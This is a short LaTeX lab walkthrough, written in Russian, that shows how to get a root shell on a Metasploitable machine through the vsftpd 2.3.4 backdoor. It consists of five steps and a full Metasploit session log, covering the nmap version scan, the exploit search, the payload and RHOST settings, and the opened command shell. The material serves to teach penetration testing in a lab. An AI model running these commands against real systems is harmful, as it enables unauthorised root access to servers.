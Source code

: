 \documentclass{article}
\begin{document}
\paragraph{Получить консоль используя уязвимость в vsftpd}
~

\begin{enumerate}
\item Сканируем целевую машину с целью определить версию ftp сервера
\item Осуществляем поиск подходящего эксплойта
\item Выбираем подходящий payload, в данном случае он единственный
\item Устанавливаем параметры эксплойта (payload, rhost)
\item Запускаем эксплойт
\end{enumerate}

\begin{verbatim}
msf auxiliary(smb_enumshares) > nmap 192.168.0.104 -p 21 -sV
[*] exec: nmap 192.168.0.104 -p 21 -sV

Starting Nmap 6.47 ( http://nmap.org ) at 2015-06-03 07:05 EDT
Nmap scan report for 192.168.0.104
Host is up (0.00016s latency).
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
MAC Address: 08:00:27:C0:D5:A0 (Cadmus Computer Systems)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results 
at http://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.47 seconds
msf auxiliary(smb_enumshares) > search vsftpd

Matching Modules
================

   Name                                  Disclosure Date  Rank       
   Description
   ----                                  ---------------  ----       
   -----------
   exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       
   excellent  VSFTPD v2.3.4 Backdoor Command Execution


msf auxiliary(smb_enumshares) > use exploit/unix/ftp/
vsftpd_234_backdoor 
msf exploit(vsftpd_234_backdoor) > show payloads 

Compatible Payloads
===================

   Name               Disclosure Date  Rank    Description
   ----               ---------------  ----    -----------
   cmd/unix/interact                   normal  Unix Command, 
   Interact with Established Connection

msf exploit(vsftpd_234_backdoor) > set PAYLOAD cmd/unix/interact 
PAYLOAD => cmd/unix/interact
msf exploit(vsftpd_234_backdoor) > set RHOST 192.168.0.104
RHOST => 192.168.0.104
msf exploit(vsftpd_234_backdoor) > exploit

[*] Banner: 220 (vsFTPd 2.3.4)
[*] USER: 331 Please specify the password.
[+] Backdoor service has been spawned, handling...
[+] UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.0.105:51913 -> 
192.168.0.104:6200) at 2015-06-03 07:09:17 -0400

hostname
metasploitable
\end{verbatim}
\end{document}
